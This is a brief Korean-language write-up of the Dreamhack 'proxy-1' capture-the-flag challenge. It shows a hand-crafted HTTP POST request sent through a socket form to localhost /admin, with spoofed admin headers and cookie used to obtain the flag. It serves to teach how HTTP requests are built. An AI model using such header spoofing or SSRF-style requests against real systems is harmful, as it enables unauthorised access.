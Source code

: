 # proxy-1

    socket으로 host, port, data를 적어서 통신을 보낼 수 있다.
    flag는 로컬 호스트 /admin 경로에 있다.

- 서버 그 자체에 요청을 보내야 하기에 호스트와 포트는 127.0.0.1:8000
- data에는 HTTP packet형태에 맞게 작성을 해줘야함. 
    >POST /admin HTTP/1.1  
    >Host: host1.dreamhack.games:8203  
    >User-Agent: Admin Browser  
    >DreamhackUser: admin  
    >Cookie: admin=true  
    >Content-Type: application/x-www-form-urlencoded  
    >Content-Length: 12
    >  
    >userid=admin  
- 주어진 서버 소스에 없는 Content-Length, Content-Type도 넣어줘야함. POST에는 필수!

***
    HTTP 요청을 직접 작성하게 하는 것에 목적이 있는 문제.   
